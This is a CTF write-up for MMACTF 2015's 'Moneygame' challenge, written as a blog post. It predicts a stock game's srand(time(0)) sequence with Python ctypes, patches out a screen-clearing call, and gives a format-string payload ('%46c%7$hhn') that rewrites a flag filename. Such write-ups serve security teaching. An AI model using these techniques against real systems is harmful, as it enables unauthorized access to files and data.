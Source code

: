 ```yaml
---
layout: post
title:  "MMACTF 2015 - Moneygame Writeup"
date:   2015-09-07
categories: CTF Writeup
---
```

# Moneygame 1/2

## Recon

We are presented with a stock market game. We have to time the market just right in order to get 10x our initial cash pile. Psh.. easy peasy

Taking a look at the binary, we see that the numbers are generated from an `srand(time(0))`. This is great for us, since we can create the same random number sequence on our end, thus negating the "random" factor of the stocks.

![srand.png](srand.png)

## Quick aside

There is a print function that clears the screen in the binary. This was annoying to debug. Patching over it is a breeze with [binjitsu](http://www.github.com/binjitsu/binjitsu)

{% highlight python %}
from pwn import *

elf = ELF('moneygame')
# NOP out annoying print that clears screen
elf.asm(0x80487b3, 'nop')
elf.asm(0x80487b4, 'nop')
elf.asm(0x80487b5, 'nop')
elf.asm(0x80487b6, 'nop')
elf.asm(0x80487b7, 'nop')

elf.save('moneygame-patched')
{% endhighlight %}

Now, `moneygame-patched` can use used locally without the annoying screen clear. Now to the actual write-up

## Flag 1

With the help of Python's ctypes, generating these random numbers on our end is trivial:

{% highlight python %}
from ctypes import CDLL
libc = CDLL('libc-2.19.so')

# Seed srand with time(0)
now = int(floor(time.time()))
libc.srand(now)

random_num = libc.rand()
{% endhighlight %}

From here, we replicate the same function that creates the stocks from the binary in Python:

{% highlight python %}
def set_stocks():
    '''Create stocks based on current srand'''
    for index in xrange(1, 4):
        stocks[index].append(10000)

    for _ in xrange(54):
        for index in xrange(1, 4):
            curr_stock = stocks[index][-1]

            # Use of libc's rand in Python
            curr_stock += libc.rand() % 2001 - 1000
            if curr_stock <= 4999:
                curr_stock = 5000
            if curr_stock > 15000:
                curr_stock = 15000

            stocks[index].append(curr_stock)
{% endhighlight %}

Now that we have our three stock listings, we have to determine the optimal buy/sell path to success.

The quick and dirty method I used is described below:
* Calculate the peaks and valleys of each stock listings
* Calculate the largest profit margins for each stock using the peaks and valleys
* Sort all profit margins together
* Attempt to fill the 54 weeks based on the profit margins

An example of the last step of this simple algorithm is below:

The top three profit margins:
{% highlight python %}
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80
[1, 5, 50,  '2'] Stock 2 from week 1 to 5 yields 100
{% endhighlight %}

Starting with the most profitable, fill in our available actions:
{% highlight python %}
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100
Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', '', '', '']
{% endhighlight %}

Second most profitable:
{% highlight python %}
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80
Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
{% endhighlight %}

Our third most profitable overlaps and existing range i.e. the [4, 6, 100, '1']. In this case, fill as much as we can before the start of the existing range.
Note: This is not optimal. Bigger improvements can be made, but are not necessary.
{% highlight python %}
[1, 5, 50, '2']
# Note: 1 - 5 overlaps into existing 4 - 6, Try to go as far as we can before selling.
Actions: ['', 'Buy stock2', 'Rest', 'Sell stock2', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
{% endhighlight %}

Now that we have our optimal actions, we simulate these actions in order to determine if the actions result in a bank of $100k. We don't want to waste time with the server, if we know ahead of time that we can lose.

Once we determine that we can win, we simply throw our results at the server and retrieve the first flag.

## Flag 2

There is a string format vulnerability in the name field of the high score after winning the game. After winning the game, the binary grabs the filename of the flag `flag1`, reads the contents of the file, and returns the contents to the user. We are given that the second flag is named `flag2`, so we can use the string format to simply change the filename from `flag1` to `flag2`. 

{% highlight python %}
# Located at offset 7 on the stack
# 0x804a2b4 = 'flag1'
# 0x804a2b8 = '1'
# '2' == 50
# Padding necessary -> 50 - 4 bytes of address = 46
shellcode = p32(0x804a2b8) + '%46c%7$hhn'
{% endhighlight %}
